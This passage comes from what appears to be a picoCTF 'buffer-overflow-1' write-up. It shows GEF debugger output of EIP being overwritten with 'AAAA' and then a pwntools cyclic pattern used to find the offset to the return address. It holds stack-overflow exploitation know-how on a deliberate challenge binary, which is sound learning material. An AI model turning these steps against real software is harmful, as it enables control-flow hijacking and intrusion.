 <span style="color:#EC0101"><b>$edi   </b></span>: <span style="color:#D41919">0x80490e0</span>  →  <span style="color:#585858"><b>&lt;_start+0&gt; endbr32 </b></span>
<span style="color:#EC0101"><b>$eip   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#367BF0">$cs</span>: 0x23 <span style="color:#367BF0">$ss</span>: 0x2b <span style="color:#367BF0">$ds</span>: 0x2b <span style="color:#367BF0">$es</span>: 0x2b <span style="color:#367BF0">$fs</span>: 0x00 <span style="color:#EC0101"><b>$gs</b></span>: 0x63 
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">code:x86:32</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>[!]</b></span> Cannot disassemble from $PC
<span style="color:#EC0101"><b>[!]</b></span> Cannot access memory at address 0x41414141
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">threads</span><span style="color:#585858"><b> ────</b></span>
[<span style="color:#47D4B9"><b>#0</b></span>] Id 1, Name: "vuln", <span style="color:#EC0101"><b>stopped</b></span> <span style="color:#367BF0">0x41414141</span> in <span style="color:#FF8A18"><b>??</b></span> (), reason: <span style="color:#962AC3"><b>SIGSEGV</b></span>
{% endccb %}

Look what happened: our program threw a SIGSEGV (segmentation) fault, as it is trying to reference the address `0x41414141`, which doesn't exist! This is because our `$eip` was overwritten by all our `A`s (`0x41` in hex = `A` in ASCII).

### III: Finessing the Stack 🛠️

Although we've managed to smash the stack, we still don't know the offset (**how many** `A`s we need to pass in order to reach the `$eip`). To solve this problem, we can use the pwntools `cyclic` command, which creates a string with a recognizable cycling pattern for it to identify:

{% ccb html:true terminal:true %}
<span style="color:#47D4B9"><b>gef➤  </b></span>shell cyclic 48
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
<span style="color:#47D4B9"><b>gef➤  </b></span>r
Starting program: /home/kali/ctfs/pico22/buffer-overflow-1/vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
<span style="color:#367BF0">0x6161616c</span> in <span style="color:#FEA44C">??</span> ()
[ Legend: <span style="color:#EC0101"><b>Modified register</b></span> | <span style="color:#D41919">Code</span> | <span style="color:#5EBDAB">Heap</span> | <span style="color:#9755B3">Stack</span> | <span style="color:#FEA44C">String</span> ]
<span style="color:#585858"><b>──────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">registers</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>$eax   </b></span>: 0x41      
<span style="color:#EC0101"><b>$ebx   </b></span>: 0x6161616a (&quot;<span style="color:#FEA44C">jaaa</span>&quot;?)
<span style="color:#EC0101"><b>$ecx   </b></span>: 0x41      
<span style="color:#EC0101"><b>$edx   </b></span>: 0xffffffff
<span style="color:#EC0101"><b>$esp   </b></span>: <span style="color:#9755B3">0xffffd130</span>  →  0x00000000
<span style="color:#EC0101"><b>$ebp   </b></span>: 0x6161616b (&quot;<span style="color:#FEA44C">kaaa</span>&quot;?)
<span style="color:#EC0101"><b>$esi   </b></span>: 0x1       
<span style="color:#EC0101"><b>$edi   </b></span>: <span style="color:#D41919">0x80490e0</span>  →  <span style="color:#585858"><b>&lt;_start+0&gt; endbr32 </b></span>
<span style="color:#EC0101"><b>$eip   </b></span>: 0x6161616c (&quot;<span style="color:#FEA44C">laaa</span>&quot;?)
<span style="color:#367BF0">$cs</span>: 0x23 <span style="color:#367BF0">$ss</span>: 0x2b <span style="color:#367BF0">$ds</span>: 0x2b <span style="color:#367BF0">$es</span>: 0x2b <span style="color:#367BF0">$fs</span>: 0x00 <span style="color:#EC0101"><b>$gs</b></span>: 0x63 